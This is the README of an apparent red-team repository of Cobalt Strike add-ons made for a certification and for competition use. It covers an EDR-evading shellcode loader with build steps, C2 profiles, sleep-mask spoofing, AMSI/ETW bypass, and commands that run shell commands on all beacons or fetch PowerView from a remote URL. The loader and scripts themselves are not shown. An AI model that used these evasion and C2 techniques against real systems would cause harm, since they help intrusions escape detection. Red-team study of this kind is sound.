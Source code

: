 # Cobalt Strike Resources
Various resources to enhance Cobalt Strike's functionality and its ability to evade antivirus/EDR detection. Includes the custom tooling I used when pursuing the Certified Red Team Lead (CRTL) certification.

### Contents
#### Loader
- [loader](loader/) ⇒ used to bypass Windows Defender and Elastic EDR detections to run Cobalt Strike beacon shellcode `<protocol>_x64.xprocess.bin`
  - uses NtMapViewOfSection technique for shellcode injection
  - spawns and injects into msedge.exe by default, though you could easily change this
#### Profile
- [crtl.profile](profile/crtl.profile) ⇒ malleable C2 profile used on CRTL exam, based on [webbug.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/webbug.profile)
- [mwccdc.profile](profile/mwccdc.profile) ⇒ malleable C2 profile used for MWCCDC regionals in 2024, based on [microsoftupdate_getonly.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/microsoftupdate_getonly.profile)
#### Kits
- [sleepmask](kits/sleepmask/) ⇒ Cobalt Strike sleep mask kit modifications to spoof legitimate msedge.exe thread callstack
- [process_inject](kits/process_inject/) ⇒ Cobalt Strike process injection kit modifications that implement NtMapViewOfSection technique - not necessary since this option is available in the malleable C2 profile, but it's a good example of how to use kernel32.dll and ntdll.dll Windows API function calls to create your own injection. I found concrete examples of this to be severely lacking on the internet.
#### Post-Ex
- [powerpick.cs](post-ex/powerpick.cs) ⇒ C# code for running unmanaged PowerShell, providing the PowerShell command as an argument(s) - compatible with inline-x.cna
- [inline-x.cna](post-ex/inline-x.cna) ⇒ modified [inlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) cna file that makes running .NET assemblies and PowerShell inline easier
- [command-all.cna](post-ex/command-all.cna) ⇒ execute `run` or `shell` command on *all* active Cobalt Strike beacons, without having to interact with each one individually

**Note:** When building powerpick.cs, you'll have to add a reference to **System.Management.Automation.dll**, which is located in `C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\<version>`

### Loader Usage
#### Two executable types:
1. EXE ⇒ standard Windows executable
2. Service ⇒ Windows service executable

**Note:** [beaconsvc.cpp](loader/main/beaconsvc.cpp) gets caught by Elastic static detection when compiled, so you might have to modify it. You can also run the standard EXE as a service, and it'll throw an error but still spawn the beacon.
#### Three loader variants:
1. Download Stager ⇒ download shellcode from file hosted on Cobalt Strike team server over HTTPS
2. Read Stager ⇒ read shellcode from disk, by default C:\Windows\beacon.bin but you can change this
3. Stageless ⇒ include shellcode directly in PE as a resource (in .rsrc section) - requires encoding the shellcode so it's not caught by EDR
#### Building the loader
1. (stageless only) generate encoded Cobalt Strike shellcode file with [encoder.py](loader/helpers/encoder.py) - see comments for more info
2. open [.sln](loader/loader.sln) file in [Visual Studio](https://visualstudio.microsoft.com/free-developer-offers/)
3. (stageless only) follow instructions in [encoder.py](loader/helpers/encoder.py) to include encoded shellcode file as a resource
4. select your desired build
5. Build Solution

### Inline X Usage
1. Change `$powerpickPath` to specify the path of your unmanaged PowerShell exe (built from [powerpick.cs](post-ex/powerpick.cs))
2. Change `$etw` and `$amsi` as you see fit - I wanted it to always bypass AMSI and ETW, which is why I set these values to 1, though someone could argue this creates additional telemetry in cases where the AMSI/ETW bypass isn't necessary, and for this reason it's better to leave the default values at 0.
3. [Load script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_cs-scripting.htm) into Cobalt Strike
4. Execute .NET assembly inline with `x execute-assembly <exe> <args>`
5. Execute unmanaged powershell inline with `x powerpick <powershell>`
   - I made this compatible with `powershell-import`, but I noticed that using this method of importing scripts generally gets detected by EDR. If you'd like to remove this functionality altogether, comment/remove lines 257 and 258.
   - As an alternative, use `--import <script>` (eg. `x --import https://example.com/PowerView.ps1 powerpick Get-Domain`). You can specify a local file on disk or remotely hosted file with http/https. This only supports importing *one* PowerShell script. I'm too lazy to extend the functionality to support multiple scripts when one per command is usually all you need.

**Note:** I commented out the portions of the script that parse arguments in single (') and double quotes (") as a single argument because most of my tooling handles or requires these quotes. For example, the unmanaged PowerShell implementation [powerpick.cs](post-ex/powerpick.cs) takes arguments passed in, converts them to one string, and runs that string. Treating multiple words as a single argument in PowerShell commands thus requires passing in those quotes as-is. You may run into instances where you *do* need to parse arguments in quotes as a single argument, much like you would when running the .NET executable in a terminal. If this is the case, you are welcome to uncomment the code portions starting on line 87 and reload the script.

### Command All Usage
1. [Load script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_cs-scripting.htm) into Cobalt Strike
2. Open Script Console
3. Execute `run` on all active beacons with `run_all <exe> <args>`
4. Execute `shell` on all active beacons with `shell_all <command>`

### Credit
My experience with AV/EDR evasion techniques and Cobalt Strike comes from the following:
- [Zero-Point Security Red Team Ops II](https://training.zeropointsecurity.co.uk/courses/red-team-ops-ii)
- [Maldev Academy](https://maldevacademy.com)
- [Midwest Regional Collegiate Cyber Defense Competition](https://www.cssia.org/mwccdc/) (I'm a red team volunteer)

I also recommend checking out the [Sektor7 Institute](https://institute.sektor7.net) courses

### Copyright Disclaimer
I was careful to avoid any copyright infringement with the resources I publicly provided in this repo. Here are two areas where copyright might come into question:
1. I include my modifications to the Cobalt Strike process injection and sleep mask kits from Fortra, which are closed-source. However, I only provided files to which I made modifications, and I replaced all portions of the code that were not my own with a comment stating *redacted*. Should you choose to use these resources, you'll have to copy my code portions over from this repo to the corresponding files in the kits.
2. In my loader, I included code taken directly from the Zero-Point Security Red Team Ops II course. However, this code is publicly available and easily-obtainable online as well. Telling ChatGPT to "write C++ code using WinHTTP to download a file and save it to an std::vector\<BYTE\>" yields almost the exact same code for the Download function, and the NtMapViewOfSection technique is [publicly documented](https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection) in various locations, making use of the same Windows API function calls in the same order.

